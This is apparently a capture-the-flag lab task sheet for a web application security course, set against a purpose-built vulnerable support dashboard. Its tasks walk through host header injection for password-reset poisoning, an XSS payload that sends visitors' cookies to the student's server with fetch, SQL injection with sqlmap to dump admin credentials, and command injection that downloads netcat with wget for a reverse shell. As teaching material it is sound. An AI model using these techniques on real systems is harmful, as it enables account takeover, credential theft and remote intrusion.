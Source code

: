 Tasks
0. Welcome
Welcome to Web Application Security Module \o/

Brief discussion:

+ Collegue:
-   Hear this, My Boss Just asked me for Customer Support Dashboard.
+ Me:
-   And ? For a Dashboard with Supports UI, Customers UI and Admin
    Portal will takes you at least 4 weeks.
+ Collegue:
-   I challenged him to do it within 3 days for reward ;)
+ Me:
-   Are you serious :O?
+ Collegue:
-   Yeah, I got Paid ChatGPT 4 by my side :'D
...
3 Days later.
...
+ Collegue:
-   I already finish it, Take a look my friend http://web0x00.hbtn!
+ Me:
-   Am I allowed to pentest it :p ?
+ Collegue:
-   Feel free, It's Hack Proof. I trust AI's Codes, \o/
Through this project we will guide you through exploiting 4 types of vulnerabilities which could occur within a web app :‘)

You should have:

Pre-Installed Kali Linux (or Use a Sandbox)
Access to our Network (Through OpenVPN or Sandbox)
Web Browser (We Recommand FireFox)
Terminal (For curl and sqlmap)
Warming Up:

Get a Target Machine
Endpoint : http://web0x00.hbtn/login
Append to your Hosts file the domain web0x00.hbtn pointing to the target machine ip.
Test your connectivity
Via terminal:
┌──(yosri㉿HBTN-LAB)-[~/0x00webfundamentals]
└─$ curl http://web0x00.hbtn
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h 1>Redirecting...</h 1>
<p>You should be redirected automatically to the target URL: <a href="/home">/home</a>. If not, click the link.

-----------------------------------------------------------------------------------------

1. Can We Trust Our Hosts?

Write a bash script that exploit host header injection using curl.

Initial Endpoint : http://web0x00.hbtn/reset_password

Your script should accept the NEW HOST as ARG 1 ("$1").

Your script should accept the TARGET URL as ARG 2 ("$2").

Your script should accept the FORM DATA as ARG 3 ("$3").

┌──(yosri㉿hbtn-lab)-[~/…/web_application_security/0x00_web_fundamentals]
└─$ ./1-host_header_injection.sh new_host http://web0x00.hbtn/reset_password email=test@test.hbtn
...
                                <div class="alert_box">
                                                <span>Email provided not found</span>
                                </div>
                                <button type="submit">Reset</button>
                                <a href="http://new_host/login">Try to sign in again ?</a>
...

-----------------------------------------------------------------------------------------

2. Catch The FLAG #1
Hints
Check the Source-Code for known Customers emails
A Bot will click the reset link delivered to the customer.
The Flag will be displayed on the <header> section after you sign in as a Customer.
Find your IP in our network

$ ip addr show tun0
16: tun0:  mtu 1500 qdisc fqcodel state UNKNOWN group default qlen 500
    link/none 
    inet 6.190.192.2/18 scope global tun0
       validlft forever preferredlft forever
    inet6 fe80::c749:5490:295:a827/64 scope link stable-privacy proto kernelll 
       validlft forever preferredlft forever
Connect to your Ubuntu environment via SSH from cod.hbtn, where the containers are running.
Here is how to connect:

*Once connected, start a Python HTTP server on port 80 to listen for the bot’s click on the reset link.

$ python3 -m http.server -b :: 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
::ffff:172.17.0.2 - - [11/Nov/2023 10:20:58] code 404, message File not found
::ffff:172.17.0.2 - - [11/Nov/2023 10:20:58] "GET /reset_password/PvgpUt9ucmv5YvfH5yIpR7wnmUolgzEJ HTTP/1.1" 404 -
Target Machine
Initial Endpoint : http://web0x00.hbtn/login

-----------------------------------------------------------------------------------------

3. Stealing Cookies from Managers is delicious !
Create a JavaScript payload that exploits Cross-Site Scripting (XSS) vulnerabilities within a ticketing system.

Craft your payload using JavaScript.
It must be encapsulated within <script> tags.
Example format for your payload file:
$ cat 3-xss_payload.txt
<script>// Your JavaScript code goes here</script>
Your code should be as short as possible.
You are not allowed to declare any variables within your payload.
Your payload must utilize the fetch function to send the cookies of the ticket system’s visitor.
The cookies should be included in the request’s pathname and sent to your designated web server.

Example: http://[your_ip]/.session=Tm90aGluZyBIZXJl]
Target App

Initial Endpoint : http://web0x00.hbtn/login

-----------------------------------------------------------------------------------------

4. Catch The FLAG #2
Hint
A Bot will load the ticket as a Support and response to it.
Never forget that the XSS Payload will load on your side too !
The Flag will be displayed on the <header> section after you sign in as a Support.
To Change your cookies, steps are simple:

Via FireFox:

-> Hit F12 (open dev tools)
-> Got to Storage (top menu)
-> Select Cookies
-> Change Value


Target Machine
Initial Endpoint : http://web0x00.hbtn/home

-----------------------------------------------------------------------------------------

5. Can we trust our Managers ?
Here we are now, logged as a Support member. Now we can check tickets and reply to them!
What’s more interesting ? Yes! the Ticket ID which smell like SQLi \o/
Write a text file containing the HTTP Request to exploit the potential SQL Injection in the ‘Ticket ID’ parameter.
Dev Tools -> Network, is the best path to go

┌──(yosri㉿hbtn-lab)-[~/…/webapplicationsecurity/0x00webfundamentals]
└─$ sqlmap -r 5-ticket.txt
        ___
       H
 ___ [']__ ___ ___  {1.7.10#stable}
|--|.["]|.'|.|
||["]||_|,|__|
      ||V...       |_|   https://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 09:31:09 /2023-11-13/
[09:31:09] [INFO] parsing HTTP request from '5-ticket.txt'
[09:31:10] [INFO] testing connection to the target URL
[09:31:10] [INFO] testing if the target URL content is stable
[09:31:10] [INFO] target URL content is stable
[09:31:10] [INFO] testing if GET parameter 'id' is dynamic
got a 302 redirect to 'http://web0x00.hbtn/support'. Do you want to follow? [Y/n]
- Target Machine - Initial Endpoint : http://web0x00.hbtn/support

-----------------------------------------------------------------------------------------

6. Catch The FLAG #3
Hints
You will need the file 5-ticket.txt from the previous task.
For the admin credentials, they could be at Admins Table. SQLmap could --dump it for you.
You could find the Admin login page at http://web0x00.hbtn/admin.
The Flag will be displayed on the <header> section after you sign in as an Admin.

Target Machine

Initial Endpoint : http://web0x00.hbtn/admin

-----------------------------------------------------------------------------------------

7. Why would an Admin have such a function ?
Welcome to Admin Panel ! Things are getting dangerous here..
As we notice, there is a ping check function, which the admin use to up devices.

Write a payload that exploits poor input validation to achieve Remote Code Execution (RCE):

Ensure there are no unnecessary spaces.
Ensure your payload does exactly the following:
Download the nc static binary using wget from https://github.com/yunchih/static-binaries/raw/master/nc.
Grant execute permission to nc.
Display the nc version using the -V option.
Your output should match this screenshot

-----------------------------------------------------------------------------------------

8. Catch The FLAG #4
Hints

Start a listner for reverse shell.
./nc to use netcat from the previous task.
The Flag could be found at root‘s home directory
